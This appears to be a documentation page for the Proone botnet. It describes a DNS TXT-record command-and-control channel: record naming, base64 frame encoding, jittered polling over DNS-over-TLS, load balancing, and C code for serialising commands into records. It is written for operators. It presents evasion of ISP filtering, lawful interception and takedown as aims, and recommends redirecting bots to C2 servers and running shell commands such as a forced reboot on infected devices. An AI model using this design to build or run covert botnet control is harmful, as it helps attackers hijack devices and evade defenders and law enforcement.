

## Overview

Unlike conventional botnets, Proone instances can be controlled through DNS TXT records containing serialized Heartbeat protocol sessions. This mechanism is called **TXT REC CNC** (TXT Record Command and Control).

## How It Works

Proone instances periodically query DNS TXT records to parse and serve request messages as if they came from a real authoritative host on a TLS connection. Any response data is discarded.

### Key Characteristics

- **No direct connection**: Commands delivered via DNS infrastructure
- **Periodic polling**: Instances query records at intervals
- **Base64 encoding**: Binary frames encoded for DNS compatibility
- **One-way**: Responses are processed but not returned
- **DNS over TLS**: Queries use public DoT servers for privacy

## CNCP Worker

The **CNC Probe Worker (CNCP)** is a subthread of the heartbeat worker that executes CNC instructions.

### Timing

- **Query interval**: 1800 ± 1800 seconds (random jitter)
- **Hardcoded**: Cannot be changed without recompiling
- **Resource efficient**: Minimizes DNS queries and processing overhead

## Record Format

### Header Record

The header record specifies the number of data records and their naming pattern:

```regex
([0-9a-fA-F]{8})(.*)
```

| Component | Description |
|-----------|-------------|
| Group 1 | Number of data records (hex with leading zeros) |
| Group 2 | Suffix for data record names |

**Macro**: `PRNE_CNC_TXT_REC`

### Example Header

```
cnc.example.com TXT "00000003.data.example.com"
```

This indicates 3 data records:
- `00000000.data.example.com`
- `00000001.data.example.com`
- `00000002.data.example.com`

### Data Records

Data records are queried sequentially (00000000, 00000001, ...) and contain base64-encoded binary protocol data.

#### Record Construction

```c
for (uint32_t i = 0; i < nb_rec; i += 1) {
    printf("%08X%s", i, suffix);
}
```

Where:
- `nb_rec`: Number of data records (from header)
- `suffix`: Suffix from header (e.g., `.data.example.com`)

### Important Notes

<Warning>
  Each data record **must have exactly one value**. Multiple values are treated as a protocol error.
</Warning>

<Note>
  The suffix doesn't need to start with a dot. Records can even span different domains:
  - Header: `cnc.domain-a.example` TXT `"0000000F.domain-b.example"`
</Note>

## Example Configuration

### Simple Command

Header record:
```
cnc.botnet.example TXT "00000001.cmd"
```

Data record:
```
00000000.cmd TXT "<base64-encoded RUN_CMD frame>"
```

### Multi-record Session

Header record:
```
txt-cnc.example.org TXT "00000005.data.example.org"
```

Data records:
```
00000000.data.example.org TXT "<base64-encoded session start>"
00000001.data.example.org TXT "<base64-encoded frame data>"
00000002.data.example.org TXT "<base64-encoded frame data>"
00000003.data.example.org TXT "<base64-encoded frame data>"
00000004.data.example.org TXT "<base64-encoded session end>"
```

## Security Features

### DNS over TLS

Proone uses **only public DNS servers with DNS over TLS** support:

- **Encrypted queries**: Prevents ISP/lawful interception
- **No system resolver**: Direct queries bypass local DNS servers
- **Public infrastructure**: Harder to block than domain takedown
- **ISP evasion**: Plain DNS would allow simple string filtering

### Rationale

1. **Encryption**: DNS protocol is unencrypted by default - ISPs could filter TXT CNC traffic
2. **Independence**: System DNS functions could be hijacked to return false results
3. **Resilience**: Law enforcement must take down domains rather than filter queries
4. **Convenience**: No server infrastructure needed for simple tasks

## Recommended Applications

### 1. Hand-over Command

Use `PRNE_HTBT_OP_HOVER` to redirect instances to authoritative servers:

```
Header: cnc.example.com TXT "00000001.hop"
Data:   00000000.hop TXT "<base64 HOVER frame with server address>"
```

Benefit: Simple DNS update redirects all instances to full-featured C2 servers.

### 2. Shell Script Execution

Use `PRNE_HTBT_OP_RUN_CMD` or `PRNE_HTBT_OP_RUN_BIN` for simple commands:

```bash
#!/bin/sh
# Minified shell script
reboot -nf
```

Benefit: Execute simple operations without server infrastructure.

## Performance Considerations

### Costly Operations

For Proone instances, TXT REC CNC involves:

1. Querying TXT records (DNS overhead)
2. Decoding base64 data (CPU)
3. Running slave heartbeat context (memory + CPU)

### Best Practices

<Warning>
  **Not recommended for large data transfers**. Use TXT REC CNC for:
  - Simple commands
  - Redirection (HOVER) to servers
  - Short shell scripts
</Warning>

<Note>
  For complex operations, use TXT REC CNC to issue HOVER commands, then handle operations on dedicated authoritative servers.
</Note>

## Load Balancing

Multiple header record values enable load balancing:

```
cnc.example.com TXT "00000002.server1.example.com"
cnc.example.com TXT "00000002.server2.example.com"
cnc.example.com TXT "00000002.server3.example.com"
```

Instances will receive different values through normal DNS load distribution.

## Processing Flow



## Error Handling

### Protocol Errors

- **Multiple values**: Data record has more than one TXT value
- **Invalid base64**: Cannot decode data record contents
- **Malformed frames**: Binary data doesn't parse correctly

### Recovery

On error, the CNCP worker:
1. Logs the error (if logging enabled)
2. Abandons the current CNC session
3. Waits for next scheduled query interval

## Implementation Notes

### Base64 Encoding

Standard base64 encoding is used because:

- Most DNS management tools don't accept binary TXT data
- RFC 1035 allows binary, but implementations restrict it
- Base64 ensures compatibility across DNS providers

### Frame Serialization

Serialize Heartbeat frames normally, then base64-encode:

```c
// 1. Serialize frame
uint8_t frame_data[MAX_FRAME_SIZE];
size_t frame_len;
prne_htbt_ser_cmd(frame_data, sizeof(frame_data), &frame_len, &cmd);

// 2. Base64 encode
char *b64 = base64_encode(frame_data, frame_len);

// 3. Store in TXT record
printf("%s TXT \"%s\"", record_name, b64);
```

## Related Topics

<CardGroup cols={2}>
  <Card title="Protocol Overview" icon="book" href="/protocols/heartbeat/overview">
    Understanding the Heartbeat protocol
  </Card>
  <Card title="Frame Format" icon="diagram-project" href="/protocols/heartbeat/framing">
    Frame structures and encoding
  </Card>
</CardGroup>

## Source Reference

- `doc/htbt.md`: TXT REC CNC specification
- Query interval: Hardcoded in source (1800±1800 seconds)
- Record format: `PRNE_CNC_TXT_REC` macro